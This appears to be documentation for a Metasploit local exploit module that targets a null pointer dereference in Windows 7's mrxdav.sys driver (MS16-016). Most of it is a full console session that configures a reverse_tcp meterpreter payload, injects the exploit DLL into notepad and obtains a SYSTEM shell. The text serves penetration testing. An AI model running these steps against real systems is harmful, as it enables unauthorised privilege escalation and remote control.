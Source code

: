 ## Intro

This module exploits a null pointer dereference vulnerability present in the `mrxdav.sys` kernel driver on Windows 7 x86.  The vulnerability is described by MS16-016 and CVE-2016-0051.  The module allows the user to spawn a new payload, such as meterpreter, on the target system with elevated privileges (NT AUTHORITY\SYSTEM)

## Usage

You'll first need to obtain a session on the target system.  Next, once the module is loaded, one simply needs to set the `payload` and `session` options.  From here, running the module will result in the payload being executed with system level privileges.

An example session follows:


```
meterpreter > background
[*] Backgrounding session 5...
msf exploit(handler) > use exploits/windows/local/ms16_016_webdav
msf exploit(ms16_016_webdav) > set session 5
session => 5
msf exploit(ms16_016_webdav) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(ms16_016_webdav) > set lport 4567
lport => 4567
msf exploit(ms16_016_webdav) > set lhost 192.168.1.203
lhost => 192.168.1.203
msf exploit(ms16_016_webdav) > run

[*] Started reverse TCP handler on 192.168.1.203:4567
[*] Launching notepad to host the exploit...
[+] Process 3204 launched.
[*] Reflectively injecting the exploit DLL into 3204...
[*] Exploit injected ... injecting payload into 3204...
[*] Sending stage (957999 bytes) to 192.168.1.221
[*] Done.  Verify privileges manually or use 'getuid' if using meterpreter to verify exploitation.
[*] Meterpreter session 12 opened (192.168.1.203:4567 -> 192.168.1.221:49266) at 2016-07-05 22:07:34 -0500

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
